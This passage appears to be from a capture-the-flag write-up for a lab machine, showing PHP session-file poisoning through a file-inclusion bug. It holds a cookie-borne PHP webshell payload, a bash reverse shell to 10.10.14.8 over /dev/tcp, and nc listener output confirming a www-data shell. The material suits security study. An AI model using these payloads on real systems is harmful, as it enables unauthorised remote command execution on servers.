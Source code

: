 ### Shell

#### PHP Session File

I don’t have a direct way to write a webshell to disk to have it included.
However, I can do some log/session poisoning. I’ll write my `php` shell into a
cookie so that it poisons the php session data, and read that out of
`/var/lib/php/sessions/`. I’ll look at my last successful request and get the
`PHPSESSID` cookie value, in my case `6mprk04iu3frud82i1pvnfehl1`. Now I’ll
send that injection to repeater and replace `/etc/passwd` with
`/var/lib/php/sessions/sess_6mprk04iu3frud82i1pvnfehl1`:

[![PHP session](https://0xdfimages.gitlab.io/img/1561209240007.png)_Click for
full size image_](https://0xdfimages.gitlab.io/img/1561209240007.png)

I’ve marked in red the included part, which contains the PHPSESSID. If that is
set by a cookie, can I set other data there? I’ll add a test cookie:

[![Poisoned PHP
session](https://0xdfimages.gitlab.io/img/1561209395830.png)_Click for full
size image_](https://0xdfimages.gitlab.io/img/1561209395830.png)

It may take a couple page loads for the new cookie to write to the file, but
it’s there eventually.

#### Webshell

I’ll add a new cookie:

    
    
    shell=<?php system($_GET['cmd']); ?>
    

I’ll url-encode that and submit a couple times:

[![PHP session with
RCE](https://0xdfimages.gitlab.io/img/1561210237340.png)_Click for full size
image_](https://0xdfimages.gitlab.io/img/1561210237340.png)

#### Shell

Now I can update the `cmd` to `bash -c 'bash -i >& /dev/tcp/10.10.14.8/443
0>&1'` (url-encoded) and catch a shell with `nc`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.126.
    Ncat: Connection from 10.10.10.126:43858.
    bash: cannot set terminal process group (605): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@unattended:/var/www/html$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
